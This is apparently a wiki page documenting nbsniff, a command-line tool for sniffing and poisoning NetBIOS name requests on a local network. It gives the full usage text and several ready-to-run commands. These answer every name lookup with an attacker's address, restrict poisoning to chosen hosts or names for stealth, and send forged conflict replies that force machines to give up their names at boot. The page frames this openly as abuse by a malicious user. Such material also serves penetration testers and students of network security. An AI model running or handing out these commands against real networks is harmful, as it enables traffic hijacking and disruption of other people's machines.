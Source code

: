 ```yaml
---
title: 'Wiki: Nbsniff'
author: ron
layout: wiki
permalink: "/wiki/Nbsniff"
date: '2024-08-04T15:51:38-04:00'
redirect_from:
- "/wiki/index.php/Nbsniff"
---
```


## Intro

[nbsniff](nbsniff "wikilink") is designed to watch and poison NetBIOS name and registration requests. This lets a malicious user take over all names on a local network that aren\'t resolved by DNS. It can also force systems to relinquish their name at boot time if it\'s a name that the attacker wants.

## Usage

    Usage: ./nbsniff [options] <action>
     -h --help
        Help (this screen).
     -s --source <sourceip>
        The ip address to reply with when using --poison. Required for --poison.
     -n --name <name>
        The name to poison. If set, only requests containing this name will be
        poisoned.
     -p --port <port>
        Listen on a port instead of the default (137). Since requests are sent on
        UDP port 137, you likely don't want to change this.
     -u --username <user>
        Drop privileges to this user after opening socket (default: 'nobody')
     -w --wait <ms>
        The amount of time, in milliseconds, to wait for responses. Default: 500ms.
     -V --version
        Print version and exit.
    Actions (--sniff is always active):
     --sniff (default)
        Display all NetBIOS requests received. This is the default action.
     --poison [address]
        Poison NetBIOS requests by sending a response containing the --source ip
        whenever a name request from the address is seen. Requires --source to be
        set. If address isn't given, all targets are poisoned.
     --conflict [address]
        If this is set, when a system tries to register or renew a name, a conflict
        is returned, forcing the system to relinquish the name. If an address is
        given, only registratons/renewals from the address are replied to.

## Details

nbsniff listens on UDP port 137 by default. UDP/137 is used by Windows (and Samba) for the NetBIOS Name Service protocol. This protocol is used to resolve local names when DNS fails. For example, if you have a machine named WINDOWS2000 on the local network, you can run \"ping WINDOWS2000\" and it\'ll work. How? By a broadcast. The sequence of events are:

1.  Windows checks the local \'hosts\' file for an entry for \"WINDOWS2000\".
2.  Windows sends a DNS request to the default DNS server for \"WINDOWS2000\".
3.  Windows sends a DNS request to the default DNS server for \"WINDOWS2000.`<domain>`\".
4.  Windows broadcasts a NetBIOS name request to the local broadcast address.

The fourth point is the key \-- any box named \"WINDOWS2000\" that sees the NetBIOS name request responds saying \"I\'m here!\". nbsniff displays those requests. Now, how can we abuse them?

First, we have the \--poison argument. \--poison, by default, replies to every request with the given ip address (the address is given in \--source). So if you run:

    nbsniff --poison --source=1.2.3.4

Everybody NetBIOS name request will be responded to with 1.2.3.4.

If you want to be a little more stealthy, there are a couple extra options. \--name `<name>` can be used to respond only to requests containing a certain name. So, if you want to poison only requests containing \"windows\", you could run:

    nbsniff --poison --source=1.2.3.4 --name=windows

Note that it\'s not case sensitive.

Further, you can restrict poisoning to be against a certain address by giving the address as an argument to \--poison. Any request from the address will be responded to as usual. For example, if you want to only poison requests from 192.168.1.100, you can do this:

    nbsniff --poison=192.168.1.100 --source=1.2.3.4

After that, any request from 192.168.1.100 will be poisoned.

Now, what happens if there\'s actually a system on the local network named WINDOWS2000? Will it still respond to our requests?

The answer, unfortunately, is yes. If we\'re poisoning WINDOWS2000 with 1.2.3.4 and there\'s already a system on the network named WINDOWS2000, they will both respond:

    $ nbquery --nb=WINDOWS2000
    Creating a UDP socket.
    Sending query.
    ANSWER query: (NB:WINDOWS2000    <00|workstation>): success, IP: 1.2.3.4, TTL: 0s
    ANSWER query: (NB:WINDOWS2000    <00|workstation>): success, IP: 192.168.1.102, TTL: 300000s

In this case, the poisoned request arrived first. That won\'t always happen, be the case, though. It really comes down to a race. If you\'re lucky, you\'ll win.

The next question is, is there a way to cheat?

Of course there is! But, it\'s somewhat disruptive and causes an error message on the target machine.

The way we cheat, basically, is to tell any machines that try to claim a name that the name is already taken. This is done by using a \'conflict\' response, \--conflict. Like poison, you can pass a \--name argument to poison only certain names, and you can pass an address to \--conflict to only respond to that host.

Here is how you\'d respond to conflicts for 192.168.1.102 attempting to register WINDOWS2000, and respond with 1.2.3.4 if 192.168.1.100 tries to look it up:

    nbsniff --poison=192.168.1.100 --conflict=192.168.1.102 --name=WINDOWS2000 --source=1.2.3.4

Typically, though, you\'ll want to cast a broader net. This responds to every machine with a \'conflict\' and every name request with \'1.2.3.4\':

    nbsniff --poison --conflict --source=1.2.3.4

Once \'conflict\' is turned on, any machine on the local network who tries to claim a name will be forced to relinquish it. Machines claim names when they boot, so you\'ll have to wait for the machine to reboot (or force it to) to take over its name. Unfortunately, after receiving the conflict, the target machine displays a message saying \"A duplicate name exists on the network.\"

That\'s everything that nbsniff can do. Hope it helps!

And by the way, a great way to test the various features of nbsniff is by using [nbquery](nbquery "wikilink"). See its documentation for more info!
